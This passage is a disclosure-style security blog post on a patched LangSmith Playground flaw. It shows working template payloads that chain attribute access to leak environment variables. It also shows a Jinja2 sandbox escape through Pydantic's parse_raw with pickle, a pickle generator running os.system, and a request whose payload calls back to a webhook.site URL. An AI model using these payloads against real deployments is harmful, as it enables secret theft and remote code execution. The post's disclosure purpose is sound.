

These days, everything and everyone is becoming AI-driven, and I'm no exception. While I was playing around with LLM in my spare time and at work, LangChain started popping up more and more in my information space. For those unfamiliar with LangChain, it's a fairly popular framework for building LLM-powered applications. LangChain is open-sourced `https://github.com/langchain-ai/langchain` and currently (December 2025) has `120k+` stars on GitHub. Essentially, LangChain provides you with all the building blocks you need to build your own LLM-powered workflow or agent. While you can use the LangChain framework standalone, there's also an ecosystem to enhance development. One of the key elements of this ecosystem is LangSmith, a comprehensive observability platform that consolidates debugging, testing, evaluation, and monitoring capabilities. Out of curiosity, I decided to explore LangSmith to better understand what products at the cutting edge of AI development offer us and what the attack surface might be for them.

## TL;DR

This post details the discovery and exploitation of a vulnerability in LangSmith Playground that allowed arbitrary code execution through unsafe template formatting. I found that the `POST /playground/invoke` endpoint can be used to deserialise user-controlled objects from JSON and pass them to `f-string`, `mustache`, or `jinja2` template formatters. Using `f-string` and `mustache` formatters, I was able to leak environment variables by chaining attribute access. Deeper investigation revealed that `jinja2` formatter could achieve remote code execution by exploiting Pydantic's deprecated `parse_raw` method with pickle deserialisation. The attack leverages the ability to pass serialised objects in input parameters and bypassing Jinja2's sandbox by calling methods that internally perform unsafe operations.

The LangChain team quickly patched the vulnerability by restricting attribute and indexing access in formatters, blocking Jinja2 templates and introducing an allow-list for objects during deserialisation to prevent arbitrary object loading.

Advisories:
* [GHSA-6qv9-48xg-fc7f](https://github.com/langchain-ai/langchain/security/advisories/GHSA-6qv9-48xg-fc7f)
* [GHSA-c67j-w6g6-q2cm](https://github.com/langchain-ai/langchain/security/advisories/GHSA-c67j-w6g6-q2cm)
* [GHSA-r399-636x-v7f6](https://github.com/langchain-ai/langchainjs/security/advisories/GHSA-r399-636x-v7f6)

## LangSmith Playground

After a quick review of the documentation, I went to `https://eu.smith.langchain.com` and created an account. Since LangSmith is designed for tracing requests to LLMs, the most logical thing to do was create my first prompt, run it, and see the results in LangSmith. Fortunately, LangSmith provides a playground, a dedicated interactive environment for rapid prompt engineering and optimisation, which looks like this:


The playground is an interactive testing environment where you can create prompts, set models and their parameters, test prompts in real-time, and even make multi-model comparisons. In other words, everything that is necessary to streamline prompt engineering and LLM experimentation. I set up Caido, added my API key for Gemini to the workspace, wrote `question` in the input section, disabled streaming (meaning the response appears complete all at once, not word by word), and started the prompt. The following request appeared in the HTTP history:

```http
POST /playground/invoke HTTP/1.1
Host: eu.api.smith.langchain.com
Authorization: Bearer <JWT>
X-User-Id: <User-ID>
X-Tenant-Id: <Tenant-ID>
Content-Type: application/json

{
    "manifest": {
        "lc": 1,
        "type": "constructor",
        "id": [
            "langsmith",
            "playground",
            "PromptPlayground"
        ],
        "kwargs": {
            "first": {
                "lc": 1,
                "type": "constructor",
                "id": [
                    "langchain",
                    "prompts",
                    "chat",
                    "ChatPromptTemplate"
                ],
                "kwargs": {
                    "messages": [
                        {
                            "lc": 1,
                            "type": "constructor",
                            "id": [
                                "langchain",
                                "prompts",
                                "chat",
                                "SystemMessagePromptTemplate"
                            ],
                            "kwargs": {
                                "prompt": {
                                    "lc": 1,
                                    "type": "constructor",
                                    "id": [
                                        "langchain",
                                        "prompts",
                                        "prompt",
                                        "PromptTemplate"
                                    ],
                                    "kwargs": {
                                        "input_variables": [],
                                        "template_format": "f-string",
                                        "template": "You are a chatbot."
                                    }
                                }
                            }
                        },
                        {
                            "lc": 1,
                            "type": "constructor",
                            "id": [
                                "langchain",
                                "prompts",
                                "chat",
                                "HumanMessagePromptTemplate"
                            ],
                            "kwargs": {
                                "prompt": {
                                    "lc": 1,
                                    "type": "constructor",
                                    "id": [
                                        "langchain",
                                        "prompts",
                                        "prompt",
                                        "PromptTemplate"
                                    ],
                                    "kwargs": {
                                        "input_variables": [
                                            "question"
                                        ],
                                        "template_format": "f-string",
                                        "template": "{question}"
                                    }
                                }
                            }
                        }
                    ],
                    "input_variables": [
                        "question"
                    ]
                }
            },
            "last": {
                "lc": 1,
                "type": "constructor",
                "id": [
                    "langchain",
                    "schema",
                    "runnable",
                    "RunnableBinding"
                ],
                "kwargs": {
                    "bound": {
                        "lc": 1,
                        "type": "constructor",
                        "id": [
                            "langchain_google_genai",
                            "chat_models",
                            "ChatGoogleGenerativeAI"
                        ],
                        "kwargs": {
                            "temperature": 0,
                            "top_p": 1,
                            "model": "gemini-2.5-flash",
                            "google_api_key": {
                                "id": [
                                    "GOOGLE_API_KEY"
                                ],
                                "lc": 1,
                                "type": "secret"
                            },
                            "max_tokens": 100
                        }
                    },
                    "kwargs": {}
                }
            }
        }
    },
    "secrets": {},
    "options": {},
    "use_or_fallback_to_workspace_secrets": true,
    "input": {
        "question": "say hi"
    },
    "repetitions": 1
}
```

When reviewing the request, my first thought was: "Does the manifest contain serialisable objects? Is this some kind of custom serialisation?". Obviously, when you see things like this, you dive into them. Let's take a closer look at the `manifest` in the request:

```json
{
    "lc": 1,
    "type": "constructor",
    "id": [
        "langsmith",
        "playground",
        "PromptPlayground"
    ],
    "kwargs": {
        "first": {
            // ...
        },
        "last": {
            // ...
        }
    }
}
```

It indeed looks like a serialised object of type `langsmith.playground.PromptPlayground` with initialisation arguments `first` and `last`. Since I wasn't familiar with the details of LangChain's internal implementation, this assumption didn't give me a full understanding of the capabilities of this serialisation mechanism, including restrictions on what objects can be deserialised or what validation mechanisms are enforced. However, I noticed another interesting thing in the request: multiple references to `langchain`, e.g. `"id": ["langchain", "prompts", "chat", "ChatPromptTemplate"]`, which led me to the idea that this code is likely open source as part of the LangChain framework, and I could review it to retrieve the missing context. I cloned the source code from `https://github.com/langchain-ai/langchain` and found all the mentioned classes there. While reviewing the `langchain_core.runnables` module, I stumbled upon the [RunnableSequence](https://github.com/langchain-ai/langchain/blob/32bbe99efcd237d2daf3fc86c561c251c5805d0e/libs/core/langchain_core/runnables/base.py#L2789) class. `RunnableSequence` chains multiple runnables together in order, creating a data processing pipeline. Each step in the sequence receives its input from the previous step's output. In Python code, it looks like this:

```python
from langchain_core.runnables import RunnableSequence, RunnableLambda

def add_one(x: int) -> int:
    return x + 1

def mul_two(x: int) -> int:
    return x * 2

runnable_1 = RunnableLambda(add_one)
runnable_2 = RunnableLambda(mul_two)
sequence = RunnableSequence(first=runnable_1, last=runnable_2)
sequence.invoke(1)
```

As you may have noticed, `RunnableSequence` accepts the same `first` and `last` arguments as `langsmith.playground.PromptPlayground` in `manifest`. Apparently, `manifest` defines a data processing pipeline using a custom serialisation mechanism, which allows creating a custom pipeline in Python code.

## Loading objects from JSON

The next step was to understand how the serialisation works. It turned out that all classes used in the request extend the [langchain_core.load.serializable.Serializable](https://github.com/langchain-ai/langchain/blob/32bbe99efcd237d2daf3fc86c561c251c5805d0e/libs/core/langchain_core/load/serializable.py#L88) class, and the deserialisation (or revival) process is implemented in [langchain_core.load.load.Reviver](https://github.com/langchain-ai/langchain/blob/32bbe99efcd237d2daf3fc86c561c251c5805d0e/libs/core/langchain_core/load/load.py#L48). The simplified code of `Reviver` is presented below:

```python
class Reviver:
    """Reviver for JSON objects."""

    def __call__(self, value: dict[str, Any]) -> Any:
        # 1. omitted handling the `secret` and `not_implemented` value types
        # 2. handling the `constructor` value type
        if (
            value.get("lc") == 1
            and value.get("type") == "constructor"
            and value.get("id") is not None
        ):
            # 3. simplified module importing
            [*namespace, name] = value["id"]
            mod = importlib.import_module(".".join(namespace))
            # 4. getting the target class and making sure it extends Serializable
            cls = getattr(mod, name)
            if not issubclass(cls, Serializable):
                msg = f"Invalid namespace: {value}"
                raise ValueError(msg)
            # 5. creating an instance of the target class
            kwargs = value.get("kwargs", {})
            return cls(**kwargs)
```

The logic is straightforward: `id` is used to find the specified class, and if it extends `Serializable`, an instance is created. This meant that the potential sink would have to extend `Serializable` and do something dangerous during initialisation. Of course, there's always the possibility that somewhere in the code one of the classes might meet these criteria. However, this path didn't seem sketchy to me and I decided to switch to template formatting instead.

## Template formatting

Looking at the `manifest` in the request, I spotted the template formatting for `PromptTemplate`:

```json
{
    "lc": 1,
    "type": "constructor",
    "id": [
        "langchain",
        "prompts",
        "prompt",
        "PromptTemplate"
    ],
    "kwargs": {
        "input_variables": [
            "question"
        ],
        "template_format": "f-string",
        "template": "{question}"
    }
}
```

The review of the [langchain_core.prompts.prompt.PromptTemplate](https://github.com/langchain-ai/langchain/blob/32bbe99efcd237d2daf3fc86c561c251c5805d0e/libs/core/langchain_core/prompts/prompt.py#L24) class revealed a rather interesting detail:

```python
class PromptTemplate(StringPromptTemplate):
    # ...
    template_format: PromptTemplateFormat = "f-string"
    """The format of the prompt template.
    Options are: 'f-string', 'mustache', 'jinja2'."""
```

`PromptTemplate` supports `f-string`, `mustache` and `jinja2` formatting types. It was a bit of a surprise to find support for `jinja2`. However, I had doubts that LangSmith allows the use of `jinja2` because this code is a part of the LangChain library and LangSmith may implement validation on the formatting type. I sent the manifest below in the request to verify the support of the `jinja2` formatting in LangSmith and received `hi` in the response rendered from the passed template.


```json
{
    "manifest": {
        // ...
        {
            "lc": 1,
            "type": "constructor",
            "id": [
                "langchain",
                "prompts",
                "chat",
                "HumanMessagePromptTemplate"
            ],
            "kwargs": {
                "prompt": {
                    "lc": 1,
                    "type": "constructor",
                    "id": [
                        "langchain",
                        "prompts",
                        "prompt",
                        "PromptTemplate"
                    ],
                    "kwargs": {
                        "input_variables": [
                            "question"
                        ],
                        "template_format": "jinja2",
                        "template": "Say {{question}}"
                    }
                }
            }
        }
        // ...
    },
    "input": {
        "question": "hi"
    }
}
```


In fact, it works in LangSmith. I started digging into the details of the formatting implementation. `PromptTemplate` implements the `format` method, which is responsible for calling the relevant formatter:

```python
class PromptTemplate(StringPromptTemplate):
    def format(self, **kwargs: Any) -> str:
        kwargs = self._merge_partial_and_user_variables(**kwargs)
        return DEFAULT_FORMATTER_MAPPING[self.template_format](self.template, **kwargs)
```

where [DEFAULT_FORMATTER_MAPPING](https://github.com/langchain-ai/langchain/blob/32bbe99efcd237d2daf3fc86c561c251c5805d0e/libs/core/langchain_core/prompts/string.py#L206) is defined inside the `langchain_core.prompts.string` module as the following dictionary:

```python
DEFAULT_FORMATTER_MAPPING: dict[str, Callable] = {
    "f-string": formatter.format,
    "mustache": mustache_formatter,
    "jinja2": jinja2_formatter,
}
```

In brief, `f-string` formatting is handled by the built-in [string.Formatter](https://docs.python.org/3/library/string.html#string.Formatter), `mustache` by the LangChain's adaptation of `https://github.com/noahmorrison/chevron` and `jinja2` by Jinja2 using `SandboxedEnvironment`. Unfortunately for me, these formatters didn't provide a straightforward way to access files or execute code. Just in case, I checked the Jinja2 package version — it was the latest with no known sandbox escapes — and the context for objects that could be used as a gadget, but the context didn't contain any extra objects. The only option left was to somehow pass an object as input and use it to access dangerous primitives. At this point, I wasn't sure what exactly could be passed as input, so it was time to test various data types: boolean, integer, string, list, dictionary. It turned out that all of them could be passed as input. For example, you can send a dictionary in the input, as shown below:

```json
{
    "manifest": {
        // ...
        {
            "lc": 1,
            "type": "constructor",
            "id": [
                "langchain",
                "prompts",
                "chat",
                "HumanMessagePromptTemplate"
            ],
            "kwargs": {
                "prompt": {
                    "lc": 1,
                    "type": "constructor",
                    "id": [
                        "langchain",
                        "prompts",
                        "prompt",
                        "PromptTemplate"
                    ],
                    "kwargs": {
                        "input_variables": [
                            "question"
                        ],
                        "template_format": "f-string",
                        "template": "Say {question}"
                    }
                }
            }
        }
        // ...
    },
    "input": {
        "question": {
            "foo": "bar"
        }
    }
}
```

and receive the same dictionary formatted as a string in the response:

```
`{'foo': 'bar'}`
```

I observed the same behaviour when I tried to pass a dictionary with a serialised object, it simply returned the dictionary back in the response. In other words, the backend didn't load a serialised object in `input` and treated it as a dictionary.

## Exploring "f-string" and "mustache" formatting

While playing around with different formatters, I thought that `f-string` and `mustache` aren't sandboxed like `jinja2` and could potentially be used to access some gadgets. This led me to explore the implementations of both formatters. After reviewing the source code of `string.Formatter` (as it turned out, it was enough to simply read the [documentation](https://docs.python.org/3/library/string.html#format-string-syntax)), I figured out that it is possible to get an element and attribute for a passed object:

```python
>>> from string import Formatter
>>> formatter = Formatter()
>>> formatter.format("{foo[0]}", foo=["bar"])
'bar'
>>> formatter.format("{foo[bar]}", foo={"bar":"asd"})
'asd'
>>> formatter.format("{foo.__class__}", foo="")
"<class 'str'>"
```

However, there is no way to make a call:

```python
>>> formatter.format("{foo.__class__.__base__.__subclasses__}", foo="")
'<built-in method __subclasses__ of type object at 0x100eb79b0>'
>>> formatter.format("{foo.__class__.__base__.__subclasses__()}", foo="")
AttributeError: type object 'object' has no attribute '__subclasses__()'
```

The similar behaviour can be observer for `mustache`, with the exception that the dot `.` operator is used for element access.


```python
>>> from langchain_core.prompts.string import mustache_formatter
>>> mustache_formatter("{{foo.0}}", foo=["bar"])
'bar'
>>> mustache_formatter("{{foo.bar}}", foo={"bar":"asd"})
'asd'
>>> mustache_formatter("{{foo.__class__}}", foo="")
"&lt;class 'str'&gt;"
>>> mustache_formatter("{{foo.__class__.__base__.__subclasses__}}", foo="")
'&lt;built-in method __subclasses__ of type object at 0x1032779b0&gt;'
>>> mustache_formatter("{{foo.__class__.__base__.__subclasses__()}}", foo="")
''
```


All the methods I knew of to access useful primitives required a function call in one way or another. Unfortunately, the built-in types proved useless, so I had to change tactics.

## Diving deeper

Having no better ideas, I went to read the LangSmith documentation. After browsing through various pages, I came across the page with deployment modes: Cloud, Hybrid, and Self-hosted. I looked into the Self-hosted mode in more detail and found out that it comes with a set of Docker images that are publicly available on Docker Hub. This discovery opened up a possibility to access the backend components and retrieve additional context. Thanks to the really helpful documentation, I was able to map these images to the service architecture and identify the most interesting ones to me. My main target was the langchain/langsmith-playground image. After exploring the handler for the POST /playground/invoke endpoint, I found that it supports serialised objects:

```python
def format_example_inputs(inputs: Union[dict, list]):
    if isinstance(inputs, list):
        # ...
    else:
        if _is_serialized_message(inputs):
            return load(inputs, ignore_unserializable_fields=True)
        # ...
```

The passed `inputs` is checked to see if it contains a serialised object using the `_is_serialized_message` function, and deserialisation is handled by the `load` function from `lanchain_core.load`, which internally calls the `Reviver` mentioned earlier. `_is_serialized_message` validates the fields in the passed input and checks whether the last element in the `id` field is present in the list of allowed class names for deserialisation. Only the following class names were whitelisted for deserialisation:

```python
_SERIALIZED_MESSAGE_IDS: list = [
    "AIMessage",
    "AIMessageChunk",
    "ChatMessage",
    "ChatMessageChunk",
    "FunctionMessage",
    "FunctionMessageChunk",
    "HumanMessage",
    "HumanMessageChunk",
    "SystemMessage",
    "SystemMessageChunk",
    "ToolMessage",
    "ToolMessageChunk",
    "RemoveMessage",
]
```

This answered my question about why attempts to use serialised objects were unsuccessful. The input is supposed to only accept objects from the `langchain_core.messages` module. I created a new input with a serialised object inside to test this:


```json
{
    "manifest": {
        // ...
        {
            "lc": 1,
            "type": "constructor",
            "id": [
                "langchain",
                "prompts",
                "chat",
                "HumanMessagePromptTemplate"
            ],
            "kwargs": {
                "prompt": {
                    "lc": 1,
                    "type": "constructor",
                    "id": [
                        "langchain",
                        "prompts",
                        "prompt",
                        "PromptTemplate"
                    ],
                    "kwargs": {
                        "input_variables": [
                            "msg"
                        ],
                        "template_format": "jinja2",
                        "template": "Say {{msg.text}}"
                    }
                }
            }
        }
        // ...
    },
    "input": {
        "msg": {
            "lc": 1,
            "type": "constructor",
            "id": [
                "langchain_core",
                "messages",
                "HumanMessage"
            ],
            "kwargs": {
                "content": "hi",
                "additional_kwargs": {}
            }
        }
    }
}
```


The response contained `hi`, which meant I could pass non-built-in objects inside templates.

## Local testing environment

The discovery of support for serialisable objects has expanded my options for gadget search and I set up a local testing environment for that. If you'd like to reproduce anything described further, you can configure the playground as shown below.

```bash
virtualenv -p python3 venv
source venv/bin/activate
pip install langchain-core==1.0.4
pip install jinja2
```


```python
>>> from langchain_core.prompts.string import DEFAULT_FORMATTER_MAPPING
>>> from langchain_core.messages import HumanMessage
>>> f_string_formatter = DEFAULT_FORMATTER_MAPPING["f-string"]
>>> mustache_formatter = DEFAULT_FORMATTER_MAPPING["mustache"]
>>> jinja2_formatter = DEFAULT_FORMATTER_MAPPING["jinja2"]
>>> f_string_formatter("{msg.text}", msg=HumanMessage("foo"))
'foo'
>>> mustache_formatter("{{msg.text}}", msg=HumanMessage("foo"))
'foo'
>>> jinja2_formatter("{{msg.text}}", msg=HumanMessage("foo"))
'foo'
```


## Leak environment variables with f-string and mustache

My first targets were `f-string` and `mustache`, I wanted to see what can be done when non-built-in objects are passed to a template. As you may recall, `f-string` and `mustache` allow only accessing attributes and getting elements, but not making calls. Ideally, there should be an attribute or element that returns a primitive that doesn't require a call and still provides something useful from an attacker's perspective. The first thing that came to mind was trying to access environment variables through `os.environ`. To do this, I needed to access the `os` module, which had to be imported and present in the module's global namespace, i.e. inside `__globals__`. Every Python function and method has a `__globals__` attribute that provides access to the global namespace of the module where it was defined. This namespace contains all module-level variables and imported modules, making it a valuable target for exploitation. For example, we can use any available method of the `HumanMessage` instance to access the global namespace:

```python
>>> HumanMessage("").pretty_repr
<bound method BaseMessage.pretty_repr of HumanMessage(content='', additional_kwargs={}, response_metadata={})>
>>> HumanMessage("").pretty_repr.__globals__
{'__name__': 'langchain_core.messages.base', ... 'get_msg_title_repr': <function get_msg_title_repr at 0x109486520>}
```

Since `__globals__` includes all imported modules, it is possible to traverse the import chain by navigating through different modules. For example, the `langchain_core.messages.human` module (where `HumanMessage` is defined) makes the following import:

```python
from langchain_core.messages import content as types
```

This imported module can be accessed as follows:

```python
>>> HumanMessage("").pretty_repr.__globals__["types"]
<module 'langchain_core.messages.content' from '/venv/lib/python3.13/site-packages/langchain_core/messages/content.py'>
```

In other words, my goal was to find a module that imports `os` and can be accessed from the global namespace accessible from the `HumanMessage` instance (or any other allowed serialisable objects). After a brief search, the following chain was found:

```python
>>> HumanMessage("").pretty_repr.__globals__["types"].ensure_id.__globals__["os"].environ
environ({'TERM_SESSION_ID': 'w0t0p0:F39B7820-17CC-4D05-BAB1-1D2782C21488' ...})
```

or using the `f-string` formatting:

```python
>>> f_string_formatter("{msg.pretty_repr.__globals__[types].ensure_id.__globals__[os].environ}", msg=HumanMessage(""))
'environ({\'TERM_SESSION_ID\': \'w0t0p0:F39B7820-17CC-4D05-BAB1-1D2782C21488\' ...})'
```

Note that there is no need to quote element keys, i.e. `__globals__[types]` instead of `__globals__["types"]`.

The similar payload can be used for `mustache` to access the environment variables:


```python
>>> mustache_formatter("{{msg.pretty_repr.__globals__.types.ensure_id.__globals__.os.environ}}", msg=HumanMessage(""))
"environ({'TERM_SESSION_ID': 'w0t0p0:F39B7820-17CC-4D05-BAB1-1D2782C21488' ...})"
```


I crafted a request with the identified payload and sent it to reproduce this behaviour in LangSmith:

> I had to add an element with the key `msg.pretty_repr.__globals__[types].ensure_id.__globals__[os].environ` to `input` to avoid a validation error. The thing is that the backend extracts all variable names from the provided template and looks for their presence in `input`.

```json
{
    "manifest": {
        // ...
        {
            "lc": 1,
            "type": "constructor",
            "id": [
                "langchain",
                "prompts",
                "chat",
                "HumanMessagePromptTemplate"
            ],
            "kwargs": {
                "prompt": {
                    "lc": 1,
                    "type": "constructor",
                    "id": [
                        "langchain",
                        "prompts",
                        "prompt",
                        "PromptTemplate"
                    ],
                    "kwargs": {
                        "input_variables": [
                            "msg"
                        ],
                        "template_format": "f-string",
                        "template": "Say {msg.pretty_repr.__globals__[types].ensure_id.__globals__[os].environ}"
                    }
                }
            }
        }
        // ...
    },
    "input": {
        "msg.pretty_repr.__globals__[types].ensure_id.__globals__[os].environ": "test",
        "msg": {
            "lc": 1,
            "type": "constructor",
            "id": [
                "langchain_core",
                "messages",
                "HumanMessage"
            ],
            "kwargs": {
                "content": "hi",
                "additional_kwargs": {}
            }
        }
    }
}
```

The backend returned all environment variables in the response:

```json
"output": {
    "lc": 1,
    "type": "constructor",
    "id": ["langchain", "schema", "messages", "AIMessage"],
    "kwargs": {
        "content": "environ({'PATH': '/usr/local/sbin:/usr/local/bin:/usr/bin:/usr/sbin:/sbin:/bin', 'HOSTNAME': 'langsmith-playground-7bbf88bd5c-d2h9j', ...})",
        // ...
    }
}
```

## Jinja2 sandbox escape and remote code execution

Unlike `f-string` and `mustache`, `jinja2` supports calls, but due to `SandboxedEnvironment` I was not able to use the similar chain that was used for `f-string` and `mustache`.


```python
>>> jinja2_formatter("{{msg.pretty_repr.__globals__[types].ensure_id.__globals__[os].environ}}", msg=HumanMessage(""))
Traceback (most recent call last):
...
jinja2.exceptions.SecurityError: access to attribute '__globals__' of 'method' object is unsafe.
```


Before we move on to the details of finding gadgets, it's worth diving into Jinja2's sandbox environment to better understand what to look for to bypass the sandbox. `SandboxedEnvironment` defines all the key operations available inside a template such as `getitem`, `getattr`, and `call`. This allows `SandboxedEnvironment` to intercept and control attribute access, method calls, operators, and data structure mutations during template rendering. For example, when you are trying to access an attribute in the template `{{obj.__class__}}`, you are actually calling `SandboxedEnvironment.getattr(obj, "__class__")`, and since any attributes starting with `_` (underscore) are blocked, you will receive `Undefined` in the response:


```python
>>> jinja2_formatter("{{msg.__class__}}", msg=HumanMessage(""))
''
```


However, Jinja2's sandbox doesn't inspect or control what happens outside the template execution context. If you pass a function to the template that internally gets a forbidden attribute, it will work:


```python
>>> jinja2_formatter("{{func('')}}", func=lambda x: x.__class__)
"<class 'str'>"
```


So, my goal was to find a method that reads/writes files or executes code/commands and use it for exploitation. Keeping this in mind, I started looking through the methods available in classes that were allowed to be loaded from `input`. `HumanMessage` has the following inheritance path: `HumanMessage > BaseMessage > Serializable > BaseModel`, where `BaseModel` is Pydantic's `BaseModel`. To be honest, I didn't immediately attach any importance to inheriting from `BaseModel`. However, after spending a bit of time digging around, I looked through the code of the `BaseModel` methods and eventually discovered the deprecated `parse_raw` method:

```python
class BaseModel(metaclass=_model_construction.ModelMetaclass):
    # ...
    @classmethod
    @typing_extensions.deprecated(
        'The `parse_raw` method is deprecated; if your data is JSON use `model_validate_json`, '
        'otherwise load the data then use `model_validate` instead.',
        category=None,
    )
    def parse_raw(  # noqa: D102
        cls,
        b: str | bytes,
        *,
        content_type: str | None = None,
        encoding: str = 'utf8',
        proto: DeprecatedParseProtocol | None = None,
        allow_pickle: bool = False,
    ) -> Self:  # pragma: no cover
        warnings.warn(
            'The `parse_raw` method is deprecated; if your data is JSON use `model_validate_json`, '
            'otherwise load the data then use `model_validate` instead.',
            category=PydanticDeprecatedSince20,
            stacklevel=2,
        )
        from .deprecated import parse

        try:
            obj = parse.load_str_bytes(
                b,
                proto=proto,
                content_type=content_type,
                encoding=encoding,
                allow_pickle=allow_pickle,
            )
        except (ValueError, TypeError) as exc:
            # ...
            raise pydantic_core.ValidationError.from_exception_data(cls.__name__, [error])
        return cls.model_validate(obj)
```

The method loads an object from a string or bytes and looks like supports serialised pickle objects. This is definitely a bad sign. Diving into the `parse.load_str_bytes` function to explore the deserialisation logic, I discovered that it is possible to pass a serialised pickle object, and it will be loaded:

```python
@deprecated('`load_str_bytes` is deprecated.', category=None)
def load_str_bytes(
    b: str | bytes,
    *,
    content_type: str | None = None,
    encoding: str = 'utf8',
    proto: Protocol | None = None,
    allow_pickle: bool = False,
    json_loads: Callable[[str], Any] = json.loads,
) -> Any:
    warnings.warn('`load_str_bytes` is deprecated.', category=PydanticDeprecatedSince20, stacklevel=2)
    # ...
    if proto == Protocol.json:
        if isinstance(b, bytes):
            b = b.decode(encoding)
        return json_loads(b)  # type: ignore
    elif proto == Protocol.pickle:
        if not allow_pickle:
            raise RuntimeError('Trying to decode with pickle with allow_pickle=False')
        bb = b if isinstance(b, bytes) else b.encode()  # type: ignore
        return pickle.loads(bb)
    else:
        raise TypeError(f'Unknown protocol: {proto}')
```

This meant that arbitrary code could be executed thanks to pickle's `__reduce__` mechanism, which allows objects to specify arbitrary functions to call during deserialisation. I wrote a tiny Python script to generate a payload:

```python
import pickle
import os

class Pwn:
    def __reduce__(self):
        return (os.system, ("whoami",))

payload = str(pickle.dumps(Pwn())).removeprefix("b'").removesuffix("'").replace("\\", "\\\\")
print(payload)
```

Because `pickle.dumps` returns bytes, the Python script encodes the serialised object as escaped hexadecimal bytes, which can be passed to the template as a string. The resulting encoded payload looks like this:

```
\\x80\\x04\\x95!\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x8c\\x05posix\\x94\\x8c\\x06system\\x94\\x93\\x94\\x8c\\x06whoami\\x94\\x85\\x94R\\x94.
```

To exploit `parse_raw`, the generated payload must be converted back into bytes that pickle can deserialise. To do this, the `payload.encode().decode('unicode_escape').encode('latin1')` chain can be used to perform the necessary transformation. Running the following local test confirmed the code execution:


```python
>>> payload = "\\x80\\x04\\x95!\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x8c\\x05posix\\x94\\x8c\\x06system\\x94\\x93\\x94\\x8c\\x06whoami\\x94\\x85\\x94R\\x94."
>>> jinja2_formatter("{{msg.parse_raw(payload.encode().decode('unicode_escape').encode('latin1'),allow_pickle=True,proto='pickle')}}", msg=HumanMessage(""), payload=payload)
0xn3va
Traceback (most recent call last):
  ...
```


To confirm the code execution in LangSmith, I had to prepare another payload that made a request to a URL, as the backend was throwing an error for Pydantic validation for the loaded object, and only an error message was returned in the response. The final manifest and input were the following:


```json
{
    "manifest": {
        // ...
        {
            "lc": 1,
            "type": "constructor",
            "id": [
                "langchain",
                "prompts",
                "chat",
                "HumanMessagePromptTemplate"
            ],
            "kwargs": {
                "prompt": {
                    "lc": 1,
                    "type": "constructor",
                    "id": [
                        "langchain",
                        "prompts",
                        "prompt",
                        "PromptTemplate"
                    ],
                    "kwargs": {
                        "input_variables": [
                            "payload",
                            "msg"
                        ],
                        "template_format": "jinja2",
                        "template": "Say {{msg.parse_raw(payload.encode().decode('unicode_escape').encode('latin1'),allow_pickle=True,proto='pickle')}}"
                    }
                }
            }
        }
    },
    "input": {
        "payload": "\\x80\\x04\\x95^\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x8c\\x0eurllib.request\\x94\\x8c\\x07urlopen\\x94\\x93\\x94\\x8c9https://webhook.site/01c5382f-8bc8-4549-92e2-1f16c933187a\\x94\\x85\\x94R\\x94.",
        "msg": {
            "lc": 1,
            "type": "constructor",
            "id": [
                "langchain_core",
                "messages",
                "HumanMessage"
            ],
            "kwargs": {
                "content": "",
                "additional_kwargs": {}
            }
        }
    }
}
```


and I finally received a callback:



## The impact

At first glance, the impact was clear: executing arbitrary code within LangSmith's infrastructure with the ability to further develop the attack. It's worth noting, however, that the playground is segregated from the core backend components, which have full access to customer data. Even requests to internal APIs required extra effort from an attacker because the playground didn't share the secret needed for service-to-service authentication. On the other hand, the playground is not completely isolated, and its exploitation can provide great opportunities for the attack.

Nevertheless, I continued to explore the LangChain ecosystem after reporting the vulnerability to the LangChain team. During one of my reading sessions on the documentation, I found pretty an interesting piece about [programmatically managing prompts](https://docs.langchain.com/langsmith/manage-prompts-programmatically). This page describes how the LangSmith SDK can be used to push and pull prompts to and from LangSmith Hub. LangSmith Hub is a centralised repository for version control, sharing, and managing prompts. It allows developers to work with prompts as they would with code: push them to Hub, pull them by name and version, track changes between commits, and so on. Hub is a kind of single source of truth for prompts, allowing developers to separate code from prompts. In practice, developers can reference prompts in Hub in their applications and iterate on those prompts directly in LangSmith, with all changes being tracked, reviewable, and reproducible. Another fascinating page in the documentation was dedicated to [syncing prompts with GitHub](https://docs.langchain.com/langsmith/prompt-commit) using webhooks. Essentially, all of these features unlock opportunities to integrate LangSmith into CI/CD or development workflows. For example, a new commit or tag in LangSmith could trigger a workflow in GitHub that will pull a prompt from Hub and invoke it, or even redeploy an application with a new prompt reference. This led me to a thought: what if I could push a prompt to LangSmith that requires no malicious input and executes code when invoked? If so, this would be a rather interesting exploitation chain if an attacker has access to a leaked LangSmith API key and the target workspace has this kind of automation. I started exploring how data flows between steps of the data pipeline in LangChain. Tracing the control flow from `RunnableSequence` to templates, I discovered that `PromptTemplate` inherits the `partial_variables` variable from `BasePromptTemplate`:

```python
# https://github.com/langchain-ai/langchain/blob/dad50e5624dda9ee44636dfda2a488fdae7e23a7/libs/core/langchain_core/prompts/base.py#L44
class BasePromptTemplate(
    RunnableSerializable[dict, PromptValue], ABC, Generic[FormatOutputType]
):
    """Base class for all prompt templates, returning a prompt."""

    # ...
    partial_variables: Mapping[str, Any] = Field(default_factory=dict)
    """A dictionary of the partial variables the prompt template carries.

    Partial variables populate the template so that you don't need to pass them in every
    time you call the prompt.
    """
```

